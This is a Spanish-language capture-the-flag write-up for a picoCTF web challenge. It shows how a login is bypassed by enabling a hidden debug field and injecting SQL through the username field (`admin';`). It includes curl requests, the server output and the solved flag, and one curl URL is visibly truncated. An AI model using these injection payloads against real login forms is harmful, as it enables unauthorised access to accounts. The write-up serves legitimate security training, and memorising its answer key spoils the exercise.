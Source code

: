 ## Descripción 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

## Datos de Acceso al Nivel
user: carlosof
password:

## Solución 1
- Ingresamos al link de la pagina y nos dirigimos a la parte del login del admin.
- Inspeccionamos la pagina web y  en el `<input type="hidden" name="debug" value="0">` cambiamos el valor a 1.
- Al tratar de ingresa la misma inyección que en el reto pasado, nos regresa lo siguiente:
```
username: admin
password: 'or 1 = 1;
SQL query: SELECT * FROM users WHERE name='admin' AND password=''or 1 = 1;'

# SQLi detected.
```
- Analizamos la siguiente consulta: 
`SELECT * FROM users WHERE name='admin'; AND password = 'password'`

- Ingresamos `admin';` en el `username`, y en  `password` la dejamos en: password.

```
username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_c34df170}
```

## Solución 2

```bash
carlosof-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin&password=password&debug=1"
<pre>username: admin
password: password
SQL query: SELECT * FROM users WHERE name='admin' AND password='password'
</pre><h1>Login failed.</h1>carlosof-picoctf@webshell:~$ curl -s https://jupiter.challenges.pin.php -d "username=admin';&password=password&debug=1"
<pre>username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>carlosof-picoctf@webshell:~$ 
```

## Notas Adicionales

## Referencias 
https://play.picoctf.org/practice/challenge/59
